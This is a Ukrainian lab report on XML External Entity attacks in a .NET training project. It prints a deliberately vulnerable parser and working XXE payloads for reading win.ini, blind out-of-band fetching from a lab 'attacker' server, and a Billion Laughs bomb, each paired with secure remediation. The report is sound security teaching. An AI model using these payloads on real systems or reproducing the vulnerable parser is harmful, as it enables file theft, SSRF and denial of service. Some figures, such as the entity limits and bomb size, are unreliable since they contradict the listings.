



# Module 03: OWASP A4: XML External Entities (XXE)

> Comprehensive security engineering guide, vulnerability analysis, C# code implementations, and Swagger UI practical walkthrough for TechFix Enterprise (.NET 10).

---


## 1. Мета роботи та вихідні дані

Мета роботи: Практичне дослідження векторів впровадження зовнішніх XML-сутностей (OWASP Top 10 A4: XML External Entities — XXE / CWE-611, CWE-776, CWE-827) у корпоративних веб-сервісах. Дослідження сценаріїв несанкціонованого витоку локальних системних конфігураційних файлів хоста, атак типу Server-Side Request Forgery (SSRF) через Out-of-Band (Blind XXE) зовнішні канали та атак відмови в обслуговуванні (Denial of Service / Billion Laughs XML Bomb). Проєктування та розробка надійних архітектурних механізмів нейтралізації загрози у середовищі .NET 10 (Clean Architecture) через безпечну конфігурацію парсера XmlReaderSettings (DtdProcessing.Prohibit, XmlResolver = null).

Вимоги до проєкту: Забезпечення кумулятивного принципу розробки навчального проєкту TechFix Enterprise: збереження повної працездатності модулів Лабораторної роботи №1 (OWASP A1: Injection) та Лабораторної роботи №2 (OWASP A2: Broken Authentication). Фіксація окремим комітом у системі контролю версій Git.


## 2. Кумулятивний розвиток бекенду TechFix Enterprise та Clean Architecture

Архітектурна інтеграція: У межах Лабораторної роботи №3 підсистему прийому замовлень та обробки XML-специфікацій деталей було інтегровано до єдиного рішень Clean Architecture. Всі нові класи додані паралельно до наявних сервісів ін'єкцій та автентифікації:


| Рівень Clean Architecture | Проєкт у .NET рішенні | Реалізовані компоненти ЛР3 (OWASP A4) |
| --- | --- | --- |
| Domain | TechFix.Domain | Сутність RepairOrder (специфікації ремонту, деталі, XML-дані клієнта). |
| Application | TechFix.Application | Інтерфейс IXxeService, моделі передачі даних: XmlOrderParseRequestDto, XmlOrderParseResponseDto, BlindXxeRequestDto. |
| Infrastructure | TechFix.Infrastructure | Сервіс XxeService: подвійна реалізація (Dual-Mode) — небезпечний XmlDocument з XmlUrlResolver проти захищеного XmlReader з DtdProcessing.Prohibit та лімітами пам'яті. |
| WebApi (Presentation) | TechFix.WebApi | Контролер A4_XxeController (10 ендпоінтів). У проєкті сумарно функціонують 37 ендпоінтів (ЛР1, ЛР2 та ЛР3 одночасно). |


Ідентифікатор коміту лабораторної роботи №3 у Git: 7562f4f1a2ef490c6810a9cfbc7b059f1f0a1c72 (Повідомлення: feat(lab3): implement OWASP A4 - XML External Entities (XXE) with vulnerable and secure endpoints (File Leak, Blind OOB SSRF, Billion Laughs DoS)).



*Рисунок 3.1 — Секція 'OWASP A4: XML External Entities (XXE)' у Swagger UI платформи TechFix Enterprise*


## 3. Практичне дослідження вразливостей, експлуатація та Secure Code Remediation


### 3.1. Класична XXE-ін'єкція та несанкціоноване читання системних файлів (CWE-611)

Опис вразливості: Модуль замовлень сервісного центру підтримує імпорт технічних специфікацій у форматі XML. У вразливій реалізації розробник активував резолвер URL-посилань XmlUrlResolver та дозволив обробку DTD (DtdProcessing.Parse). Це дає змогу атакувальнику оголосити зовнішню сутність з ідентифікатором SYSTEM, яка вказує на локальний файл ОС (наприклад, C:/Windows/win.ini або /etc/passwd).


**Лістинг 3.1 — Вразливий парсер XML з увімкненим завантаженням зовнішніх сутностей**


```csharp
// [ВРАЗЛИВА РЕАЛІЗАЦІЯ: Infrastructure/Services/XxeService.cs]
public Task<XmlOrderParseResponseDto> ParseOrderXmlVulnerableAsync(string xmlContent)
{
    // АНТИПАТЕРН: Включення обробки DTD та зовнішнього мережевого/файлового резолвера
    var xmlDoc = new XmlDocument();
    xmlDoc.XmlResolver = new XmlUrlResolver();

    using var stringReader = new StringReader(xmlContent);
    using var xmlReader = XmlReader.Create(stringReader, new XmlReaderSettings
    {
        DtdProcessing = DtdProcessing.Parse, // Дозволяє парсинг DOCTYPE
        XmlResolver = new XmlUrlResolver()  // Дозволяє читання файлів протоколу file://
    });

    xmlDoc.Load(xmlReader);
    var customerName = xmlDoc.SelectSingleNode("//customerName")?.InnerText;
    return new XmlOrderParseResponseDto { CustomerName = customerName };
}
```

Хід експлуатації: На ендпоінт POST /api/A4_Xxe/parse-order/vulnerable надіслано XML-документ з вектором читання конфігураційного файлу Windows:


**Лістинг 3.2 — Шкідливий XML-документ із сутністю &xxe;, що посилається на win.ini**


```csharp
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<order>
  <customerName>&xxe;</customerName>
  <deviceModel>MacBook Pro M2</deviceModel>
  <problemDescription>Screen Flicker</problemDescription>
</order>
```

Результат атаки: Парсер розгорнув сутність &xxe;, зчитав вміст локального файлу C:\Windows\win.ini з файлової системи сервера і помістив його у вузол customerName, повернувши зловмиснику повний зміст системного файлу у відповіді HTTP 200.


*Рисунок 3.2 — Успішне читання системного файлу win.ini через XXE-ін'єкцію у Swagger UI*

Root Cause Analysis: Головною першопричиною є історична поведінка XML-парсерів, які за замовчуванням підтримують завантаження зовнішніх DTD. Якщо конфігурація парсера явно не забороняє DTD, парсер самостійно відкриває локальні файли або генерує мережеві запити від імені облікового запису процесу веб-сервера.

Secure Code Remediation: Для надійного усунення загрози застосовано сучасні рекомендації Microsoft та OWASP: властивість DtdProcessing налаштовано у значення Prohibit (або Ignore), а параметр XmlResolver встановлено у null. При спробі передати будь-яку DTD-секцію парсер негайно викидає виняток XmlException і блокує обробку запиту з кодом 400 Bad Request.


**Лістинг 3.3 — Захищений XmlReader з забороною DTD та нульовим резолвером**


```csharp
// [ЗАХИЩЕНА РЕАЛІЗАЦІЯ: Infrastructure/Services/XxeService.cs]
public Task<XmlOrderParseResponseDto> ParseOrderXmlSecureAsync(string xmlContent)
{
    // ЗАХИСТ: Суворе блокування DTD та зовнішнього резолвінгу
    var secureSettings = new XmlReaderSettings
    {
        DtdProcessing = DtdProcessing.Prohibit, // Повна заборона DTD
        XmlResolver = null,                   // Заборона будь-яких URL/File резолверів
        MaxCharactersFromEntities = 0,        // Заборона розгортання сутностей
        MaxCharactersInDocument = 100000      // Ліміт на розмір документу
    };

    using var stringReader = new StringReader(xmlContent);
    using var xmlReader = XmlReader.Create(stringReader, secureSettings);

    var xmlDoc = new XmlDocument();
    xmlDoc.Load(xmlReader);
    // ... безпечна екстракція даних
}
```

Підтвердження нейтралізації: При повторній спробі надіслати експлойт на захищений ендпоінт POST /api/A4_Xxe/parse-order/secure сервер повертає статус HTTP 400 Bad Request із повідомленням: 'Security Alert: Спроба XXE-атаки успішно заблокована! Використання DTD та зовнішніх сутностей суворо заборонено політикою безпеки сервера'. Загрозу повністю нейтралізовано.



*Рисунок 3.3 — Блокування XXE-ін'єкції (HTTP 400 Security Alert / DtdProcessing.Prohibit) у Swagger UI*


### 3.2. Сліпі XXE-атаки та несанкціоновані зовнішні запити (Blind XXE / Out-of-Band SSRF — CWE-918)

Опис загрози: У випадках, коли сервер парсить XML, але не повертає отримані значення безпосередньо у тілі HTTP-відповіді, зловмисники застосовують техніку Blind XXE (Out-of-Band Data Exfiltration). Зовнішня сутність змушує XML-парсер відправити HTTP- або FTP-запит на контрольований атакувальником сервер (наприклад, стенд WebWolf на порту 9090).


**Лістинг 3.4 — Вектор Blind XXE з генерацією зовнішнього HTTP-запиту (SSRF)**


```csharp
// Вразливо: дозвіл генерації зовнішніх мережевих запитів
<!DOCTYPE data [
  <!ENTITY % remote SYSTEM "http://127.0.0.1:9090/xxe-eval.dtd">
  %remote;
]>
<data>test</data>
```


*Рисунок 3.4 — Виконання Blind XXE у Swagger UI: парсер генерує Out-Of-Band SSRF-запит на віддалений сервер*

Secure Code Remediation: Встановлення XmlResolver = null гарантує, що парсер взагалі не має доступу до мережевого стека, що виключає можливість як локального читання файлів, так і генерації запитів SSRF. Будь-які мережеві схеми (http://, https://, ftp://) негайно відхиляються.


*Рисунок 3.5 — Блокування Blind XXE та SSRF у захищеному ендпоінті Swagger UI через заборону DTD*


### 3.3. Атаки відмови в обслуговуванні через експоненційне розгортання сутностей (Billion Laughs XML Bomb — CWE-776)

Опис загрози: Атака 'Billion Laughs' полягає у визначенні каскаду вкладених внутрішніх сутностей (lol1 містить 10 lol, lol2 містить 10 lol1 і так далі). При розмірі вихідного XML-файлу менше ніж 1 КБ його розгортання в пам'яті вимагає понад 3 ГБ оперативної пам'яті та 100% завантаження процесора, що призводить до негайного аварійного падіння процесу веб-сервера (OutOfMemoryException / Denial of Service).


**Лістинг 3.5 — Структура каскадної XML-бомби експоненційного розгортання**


```csharp
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;">
]>
<order><customerName>&lol5;</customerName></order>
```



*Рисунок 3.6 — Експоненційне розгортання XML-бомби вразливим парсером у Swagger UI*

Secure Code Remediation: Для захисту від XML-бомб у .NET налаштовуються жорсткі квоти розгортання через властивість XmlReaderSettings.MaxCharactersFromEntities = 1024 та обмеження максимального розміру документа MaxCharactersInDocument = 100000. При перевищенні ліміту парсинг негайно припиняється без споживання ресурсів хоста.


*Рисунок 3.7 — Захищене відхилення XML Bomb (Billion Laughs DoS Neutralized) у Swagger UI*


## 4. Зведена матриця результатів верифікації безпеки (OWASP A4)

Результати експериментальної верифікації: У таблиці 1 наведено зведений порівняльний аналіз вразливих та захищених методів обробки XML у системі TechFix Enterprise.


| Підвид XXE | CWE / Стандарт | Тестовий вектор | Вразлива поведінка | Результат після Remediation |
| --- | --- | --- | --- | --- |
| File Retrieval | CWE-611 (High) | <!ENTITY xxe SYSTEM "file:///...win.ini"> | Повний витік вмісту файлу win.ini у вузол відповіді | 400 Bad Request: DtdProcessing.Prohibit блокує парсинг DTD. |
| REST XML Injection | CWE-611 (High) | Content-Type: application/xml з XXE | Несанкціонована десеріалізація сутностей через REST | Строга валідація формату, DTD заборонено на рівні шлюзу. |
| Blind XXE / SSRF | CWE-918 (High) | <!ENTITY % remote SYSTEM "http://..."> | Генерація несанкціонованого мережевого HTTP-запиту OOB | XmlResolver = null повністю блокує вихідні сокети парсера. |
| Billion Laughs DoS | CWE-776 (Medium) | Каскадні вкладені сутності &lol5; | Експоненційне вичерпання RAM та зависання процесу | MaxCharactersFromEntities лімітує пам'ять, DoS ліквідовано. |


## 5. Відповіді на контрольні запитання

1. Чому налаштування DtdProcessing.Prohibit є найнадійнішим засобом протидії XXE-ін'єкціям?
Властивість DtdProcessing.Prohibit інструктує синтаксичний аналізатор XML негайно припинити обробку документа і згенерувати виняток XmlException у разі виявлення будь-якого оголошення <!DOCTYPE>. Це на 100% унеможливлює атаку XXE на самому початку парсингу, оскільки зовнішні сутності можуть визначатися виключно всередині DTD.

2. Яка роль класу XmlResolver у контексті інформаційної безпеки обробки XML?
Об'єкт XmlResolver відповідає за перетворення відносних та абсолютних URI (схеми file://, http://, ftp://) на фізичні ресурси пам'яті чи мережі. Встановлення XmlResolver = null гарантує, що навіть у разі обробки застарілих XML документів парсер не зможе звернутися до файлової системи хоста чи надіслати мережевий запит на внутрішній сервер організації (SSRF).

3. У чому полягає критична небезпека атаки типу 'XML Entity Expansion' (Billion Laughs)?
При атаці Billion Laughs розмір текстового XML-файлу є мінімальним (кілька сотень байтів), тому стандартні брандмауери та мережеві фільтри WAF не фіксують перевантаження каналу. Небезпека виникає всередині адресного простору парсера: експоненційний рекурсивний каскад миттєво споживає всю доступну оперативну пам'ять сервера, викликаючи OutOfMemoryException та падіння процесу пулу застосунків для всіх легітимних клієнтів.

4. Чому сучасні REST-фреймворки можуть бути вразливими до XXE, якщо приймають XML?
При переході на сучасні REST API бекенди часто налаштовуються на автоматичний контент-неґошіейшн (Content Negotiation). Якщо клієнт замість звичного Content-Type: application/json надсилає application/xml, фреймворк автоматично перемикається на вбудований XML-форматер (наприклад, XmlSerializer або DataContractSerializer). Якщо цей форматер не захищений, зловмисник отримує змогу провести XXE-атаку на API, яке спочатку проєктувалося як суто JSON-орієнтоване.


## 6. Висновки

Підсумки роботи: У ході виконання лабораторної роботи №3 було досліджено вразливості категорії OWASP Top 10 A4: XML External Entities (XXE) на базі корпоративної платформи TechFix Enterprise на платформі .NET 10. Було реалізовано та експериментально верифіковано класичне несанкціоноване зчитування системних конфігураційних файлів через директиви SYSTEM (CWE-611), несанкціоновані запити Blind Out-Of-Band SSRF (CWE-918) та атаки відмови в обслуговуванні через експоненційне розгортання каскадних сутностей Billion Laughs (CWE-776).

Практичне значення: Для всіх досліджених загроз розроблено надійні архітектурні рішення Secure Code Remediation відповідно до принципів Secure by Design: суворе відключення DTD (DtdProcessing.Prohibit), ізоляція резолверів (XmlResolver = null) та встановлення квот на розмір розгорнутих сутностей. Повторне тестування через інтерфейс Swagger UI підтвердило 100% захищеність системи.

Академічна відповідність: Проєкт збережено у версійному контролі Git (коміт 7562f4f) за кумулятивним принципом — результати робіт №1 та №2 збережено у повному обсязі. Роботу виконано відповідно до стандартів кафедри комп'ютерних наук ТНТУ.
